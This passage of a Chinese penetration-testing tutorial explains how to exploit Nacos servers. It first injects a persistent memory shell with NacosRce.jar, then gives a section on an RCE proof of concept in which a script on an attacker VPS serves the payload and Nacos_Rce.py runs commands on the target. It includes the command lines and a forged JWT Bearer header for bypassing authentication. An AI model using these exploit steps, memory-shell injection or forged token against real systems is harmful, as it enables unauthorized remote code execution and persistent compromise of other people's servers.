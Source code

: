 tips:  
1、请用jdk1.8  
2、适用于 Nacos 2.x <= 2.2.2  
3、非集群的也能打哦  
4、此内存马重启nacos依然存活  
  
关于Windows  
如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件  
  
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows  
  
如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功  
windows 没打成功也许是因为没权限操作C盘或其他原因  
## 9. Nacos RCE  
  
这个漏洞涉及两个路径，其中derby其实就是CVE-2021-29441  
  
/nacos/v1/cs/ops/data/removal  
/nacos/v1/cs/ops/derby  
  
测试版本：nacos1.4.0（2.3.2也成功），默认状态  
  
下载poc：GitHub - FFR66/Nacos_Rce: 网传nacos_rce漏洞poc，并上传到vps上  
  
1. 在vps启动  
  

```
python service.py
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaWCv6qSfg23ASNYSL5vdeFjKurgdMJaMIsSvLzUicg205IKoic1GHKsLQ/640?wx_fmt=jpeg&from=appmsg "")  
  
默认会在5000端口打开服务  
  
然后本地机器上执行poc  
  
当系统为未授权访问时，可直接触发RCE  
  
Nacos_Rce.py -t 192.168.67.129 -p 5000 -u http://192.168.67.134:8848 -c whoami  
#-t vps ip  
  
#-p 端口地址  
#-u nacos web地址  
  
# -c 指定命令  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiahAuHXrTBrgHicuCUfIfHu7zrMpeRL9YpXiaxAHAib8sFAWR6UqtF3iaRDw/640?wx_fmt=jpeg&from=appmsg "")  
  
如果显示未知用户或者未找到用户，则表示nacos启用了鉴权需要伪造JWT绕过登陆授权，在文件Nacos_Rce.py文件中设置请求头即可。只要能够绕过登陆授权，就可能能RCE。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaBZc7dz3kUGm9wKTUxZZHX8sgvAKpcShO7junCiaH4W6HG9ppmjvQiakg/640?wx_fmt=jpeg&from=appmsg "")  
  
  

```
header = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like             Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.67','Authorization':'Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MzQ4MTM1NzA1NX0.92Mo2gkDFuPnUaD2v63SQl1IWtObfBxDTWgIhqvteM8'}
```
